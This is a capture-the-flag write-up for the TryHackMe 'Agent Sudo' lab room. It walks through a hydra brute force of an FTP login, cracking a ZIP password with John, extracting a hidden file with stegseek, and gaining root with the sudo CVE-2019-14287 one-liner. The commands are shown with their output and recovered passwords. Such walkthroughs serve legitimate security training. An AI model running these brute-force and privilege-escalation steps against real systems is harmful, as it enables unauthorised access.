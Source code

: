 ```yaml
---
title: Agent Sudo
description: 'Password attack with hydra and stegseek'
pubDate: 2024-01-04
category: 'tryhackme'
tags: ['hydra', 'binwalk']
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/aedc6b66c222e15ff740c282a0c3f44e.png'
---
```


User-Agent: C
Redirect to: agent_C_attention.php

Has a reference to agent J

Agent C (chris) has a weak password, we can probably use hydra to brute force FTP access.

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.187.34
...snip...
[21][ftp] host: 10.10.187.34   login: chris   password: crystal
...snip...
```

```bash
binwalk -e cutie.png
```
This outputs a ZIP file which has a password, we can crack it with John

```bash
zip2john 8702.zip > zip_hash
john zip_hash --wordlist /usr/share/wordlists/rockyou.txt
...snip...
alien            (8702.zip/To_agentR.txt)
```

```bash
stegseek cute-alien.jpg /usr/share/wordlists/rockyou.txt
...snip..
[i] Found passphrase: "Area51"
[i] Original filename: "message.txt".
[i] Extracting to "cute-alien.jpg.out".
```

The incident is called: Roswell alien autopsy

CVE-2019-14287
```bash
sudo -u \#$((0xffffffff)) /bin/bash
```

OR:

```bash
systemd-run -t /bin/bash # <-- password: hackerrules!
```
